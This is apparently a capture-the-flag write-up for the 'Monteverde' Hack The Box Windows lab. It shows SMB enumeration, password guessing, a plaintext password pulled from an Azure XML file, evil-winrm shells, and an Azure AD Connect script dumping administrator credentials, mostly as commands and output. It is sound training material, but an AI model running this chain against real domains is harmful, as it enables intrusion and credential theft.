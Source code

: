 # Monteverde

Monteverde was a medium windows box that involved many common windows exploitation techniques and didnt require much to get both the user and root flags

>Skills onvolved in this box:
- enumeration
- smbclient
- CrackMapExec & enum4linux
- windows privelage escalation

# USER

>Nmap
First we start off with an nmap scan and it reveals many ports open but the ones we are interested in are port 139/445 allowing access to smb.
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-14 07:23:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

We decide to enumerate further with enum4linux and get a list of users on the box.
```bash 
./enum4linux.pl -a 10.10.10.172
```
 reveals the users:
```bash
MEGABANK\Administrator
MEGABANK\krbtgt
MEGABANK\AAD_987d7f2f57d2
MEGABANK\mhope
MEGABANK\SABatchJobs
MEGABANK\svc-ata
MEGABANK\svc-bexec
MEGABANK\svc-netapp
MEGABANK\dgalanos
MEGABANK\roleary
MEGABANK\smorgan
```
The main user that sticks out here is SABatchJobs.
We then try to logon to the box with smbclient:
`smbclient -L 10.10.10.172 -U SABatchJobs` We try a few guesssing passwords and we manage to login with `SABatchJobs:SABatchJobs`
```bash
kali@kali:~$ smbclient -L 10.10.10.172 -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk      
SMB1 disabled -- no workgroup available
```
We spot the users$ file lets take a look at that:
```bash
kali@kali:~$ smbclient //10.10.10.172/users$ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> 
```
We take a look around the users but the only usefull thing we can find is in the dir `mhope`

We find a file called `azure.xml` and we donwload it to our box, we can jsut use `get` or for me i got a timeout error so i mounted it to my box using:
```bash
sudo mount -t cifs //10.10.10.172/users$ /mnt/monteverde -o user=SABatchJobs
```
>azure.xml:
```xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>

```
We find the password `4n0therD4y@n0th3r$` lets use this to try login with evil-winrm, we will use the user mhope as that is the user direcotry where we found the xml file
```bash
kali@kali:~$ evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> cd ..
*Evil-WinRM* PS C:\Users\mhope> cd Desktop
*Evil-WinRM* PS C:\Users\mhope\Desktop> ls


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt


*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
4961976bd7d8f4eeb2ce3705e2f212f2
*Evil-WinRM* PS C:\Users\mhope\Desktop>
```
There we go and we get the user flag!

# ROOT

We start by checking permissions for our user `whoami /groups` brings back some interseting results:
```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group

```
`MEGABANK\Azure Admins` seems to be usefull somehow, after a google search we find a priv esc tool called `AzureADConnect` which spits out the admin creds for the box, so we try and utilise this. https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1 <-- for the tool 

```bash
*Evil-WinRM* PS C:\Users\mhope\Desktop> import module ./AzureADConnect.ps1 <-- from our box
*Evil-WinRM* PS C:\Users\mhope\Desktop> AzureADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: Administrator
[+] Password: d0m@in4dminyeah!
```
Great now we have creds for the administrator lets log in and grab the root flag!
```bash
kali@kali:~/boxes/monteverde$ evil-winrm -u Administrator -p d0m@in4dminyeah! -i 10.10.10.172

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
cd*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
12909612d25c8dcf6e5a07d1a804a0bc
```
Thanks for reading hope you enjoyed!


